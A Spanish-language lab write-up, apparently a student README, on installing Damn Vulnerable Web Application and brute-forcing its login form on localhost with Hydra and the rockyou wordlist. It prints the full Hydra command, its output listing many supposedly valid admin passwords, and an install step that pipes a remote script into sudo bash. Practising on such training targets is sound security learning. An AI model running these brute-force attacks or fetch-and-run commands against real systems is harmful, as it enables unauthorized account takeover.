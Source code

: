 # DAMN VULNERABLE WEB APPLICATION

# Ismael Ruiz

## Instalación

Clonaremos el repositorio y lanzaremos el script de instalación creado por "IamCarron" certificado por el propio creador de DVWA

```bash
git clone https://github.com/digininja/DVWA.git

sudo bash -c "$(curl --fail --show-error --silent --location https://raw.githubusercontent.com/IamCarron/DVWA-Script/main/Install-DVWA.sh)"
```

## Ataque de fuerza bruta

Utilizaremos hydra, una herramienta muy versátil para hacer ataques de fuerza bruta, indicando con `-l` un usuario concreto (si tuviéramos una lista de usuarios sería con `-L`), `-P` para indicar la lista de contraseñas (en este caaso rockyou), la ruta al formulario, `^USER^` y `^PASS^` los sustituye hydra con cada combinación, `Login=submit` que es el valor del botón y `:Username and/or password incorrect` es para que hydra sepa si ese intento ha sido correcto o incorrecto.

```bash
hydra -l admin -P ~/Desktop/rockyou.txt "http-get-form://localhost/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=submit:Username and/or password incorrect."
```
Cuando hydra termine de hacer su trabajo tendremos las contraseñas válidas

```bash
[80][http-get-form] host: localhost   login: admin   password: 123456
[80][http-get-form] host: localhost   login: admin   password: 12345
[80][http-get-form] host: localhost   login: admin   password: password
[80][http-get-form] host: localhost   login: admin   password: iloveyou
[80][http-get-form] host: localhost   login: admin   password: password
[80][http-get-form] host: localhost   login: admin   password: 123456789
[80][http-get-form] host: localhost   login: admin   password: 1234567
[80][http-get-form] host: localhost   login: admin   password: 12345678
[80][http-get-form] host: localhost   login: admin   password: babygirl
[80][http-get-form] host: localhost   login: admin   password: princess
[80][http-get-form] host: localhost   login: admin   password: abc123
[80][http-get-form] host: localhost   login: admin   password: daniel
[80][http-get-form] host: localhost   login: admin   password: lovely
[80][http-get-form] host: localhost   login: admin   password: rockyou
[80][http-get-form] host: localhost   login: admin   password: monkey
[80][http-get-form] host: localhost   login: admin   password: nicole
```

Y podremos iniciar sesión
